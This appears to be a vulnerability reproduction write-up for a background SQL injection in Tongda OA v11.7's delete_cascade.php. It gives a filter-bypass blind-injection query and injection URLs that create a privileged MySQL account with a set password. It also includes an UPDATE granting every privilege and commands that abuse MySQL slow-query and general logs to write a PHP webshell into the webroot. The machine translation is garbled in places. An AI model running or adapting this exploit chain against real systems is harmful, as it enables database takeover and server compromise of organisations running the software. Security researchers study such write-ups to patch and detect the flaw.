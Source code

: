 # Tongda OA v11.7 delete_cascade.php background SQL injection

## Vulnerability Description

There is SQL injection in the background of Tongda OA v11.7, and you can write malicious backdoor files to attack the target server through this vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA v11.7</span>

## Environment construction

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Environmental address: https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe</span>

## Vulnerability reappears

In the `general/hr/manage/query/delete_cascade.php` file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-3.png)

First, determine whether `$condition_cascade` is empty. If it is not empty, replace `\' with `'. 

`inc/common.inc.php` code

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-4.png)



Test SQL injection using blind annotation



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-5.png)



Triggered SQL injection interception of Tongda OA

The filtering mechanism is found in the `inc/conn.php` file as follows:

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-6.png)



It filters some characters, but it is not impossible to bypass. The core of blind accents is that functions such as `substr, if` are not filtered. So as long as MySQL is constructed, you can use the `if` function to blind accent. Looking through the sharing of the outsider's master at the White Hat Conference, I found that `power(9999,99)` can also cause the database to report an error, so the constructor statement:



```sql
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-7.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-8.png)



Add SQL database user



```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```



Visit `http://xxx.xxx.xxx.xxx/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql. *TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION*



Enter the `Myoa/mysql5/bin` directory Execute `mysql -upeiqi -p` Enter your password to query all users



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-9.png)



Found that successful execution adds an account

Then the user has all permissions to the mysql database and then adds permissions to himself:



```sql
UPDATE `mysql`.`user` SET `Password` = '*FBCFBB73CF21D4F464A95E775B40AF27A679CD2D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('peiqi' AS Binary(5));
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-10.png)



Then use the injection point to refresh the permissions, because the user does not have the permission to refresh the permissions: `general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-11.png)

If login fails, execute

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

Write shells using vulnerabilities



```sql
# 查路径：
select @@basedir; # F:\OA\mysql5\，那么web目录就是 F:/OA/webroot/
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='F:/OA/webroot/';
select '<?php phpinfo();?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'F:/OA/webroot/';
select '<?php phpinfo();?>';
show variables like '%general%';
```



Upload Malaysia

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-12.png)